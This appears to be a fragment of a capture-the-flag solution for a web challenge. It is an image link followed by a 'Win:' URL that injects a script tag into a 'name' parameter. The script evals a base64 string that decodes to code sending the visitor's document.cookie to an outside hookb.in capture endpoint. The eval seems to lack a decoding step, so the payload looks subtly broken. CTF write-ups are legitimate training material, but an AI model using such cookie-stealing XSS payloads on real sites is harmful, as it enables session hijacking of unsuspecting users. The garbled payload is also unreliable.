 
Win: <https://h3y-buddy.vishwactf.com/submit?name=%3Cscript%3Eeval(%27ZG9jdW1lbnQubG9jYXRpb249J2h0dHBzOi8vaG9va2IuaW4vRTdHMmduZ2xwS1NWalk2NjlyVjI/Jytkb2N1bWVudC5jb29raWU=%27)%3C/script%3E>
